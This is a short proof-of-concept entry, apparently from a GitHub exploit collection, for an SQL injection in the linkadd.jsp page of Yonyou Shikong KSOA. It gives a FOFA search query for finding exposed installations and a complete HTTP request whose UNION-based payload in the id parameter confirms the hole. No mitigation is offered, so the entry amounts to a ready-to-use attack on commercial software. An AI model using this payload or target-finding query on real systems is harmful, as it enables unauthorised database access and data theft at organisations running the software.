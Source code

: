 ## 用友时空KSOA-linkadd.jsp存在SQL注入漏洞

## fofa
```
title="企业信息系统门户"
```

## poc
```
GET /linksframe/linkadd.jsp?id=666666%27+union+all+select+null%2Cnull%2Csys.fn_sqlvarbasetostr%28HashBytes%28%27MD5%27%2C%27123456%27%29%29%2Cnull%2Cnull%2C%27 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![dddb6abed3843740aef1ca9d49b2b0f2](https://github.com/wy876/POC/assets/139549762/646894eb-bdd1-47a8-a54c-f3479030c97f)
